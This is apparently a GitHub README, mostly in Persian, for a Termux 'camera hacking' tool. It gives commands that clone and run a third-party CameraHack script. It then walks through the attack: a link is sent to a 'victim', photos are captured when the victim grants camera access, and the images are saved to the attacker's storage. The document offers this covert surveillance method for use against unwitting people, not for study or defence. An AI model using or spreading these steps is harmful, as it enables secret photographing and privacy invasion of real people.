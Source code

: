 # Hack-clfe
یک ابزار کاربردی برای هک دوربین 


🔰ابزار هک دوربین گوشی  به وسیله ترموکس
-
🔰Hack Camera phone with Termux 

این فقط یک نوع ابزار برای هک دوربین می باشد ![Screenshot_۲۰۲۳۱۰۱۹_۰۹۴۶۴۵_Termux](https://github.com/MRAvarvokiranshare/Hack-clfe/assets/146922434/0ae08e51-d8d4-440a-aede-f62adf2caa45)



apt update -y && apt upgrade -y 

apt install git wget php curl -y

git clone https://github.com/OnlineHacKing/CameraHack.git

cd CameraHack 

chmod +x *

bash setup

bash CamHack


- اگه در مواقعی پیش اومد که لینک نداد دوباره تست کنید و چک کنید نقطه اتصال همراه روشن باشه و
فیلترشکنتون خاموش باشه)
اگه قربانی دسترسی به دوربین رو نده عکسش براتون ارسال نمیشه و فقط ای پیش میاد،
وقتی عکس قربانی ارسال شد براتون و میخواید سیوش کنید ابتدا دکمه CTRL رو بزنید و بعدش کلمه C
رو بزنید تا به مرحله دریافت اطلاعات قربانی پایان داده بشه ،
سپس دستور ls
رو بزنید تا وارد پوشه عکس ها بشید بعدشم دستور
mv *png /sdcard
رو بزنید تا عکسا توی حافظه داخلی گوشیتون سیو بشه


چنل واتسدپ ما https://chat.whatsapp.com/CqudAuDAKU3LpQzkHV4ToF
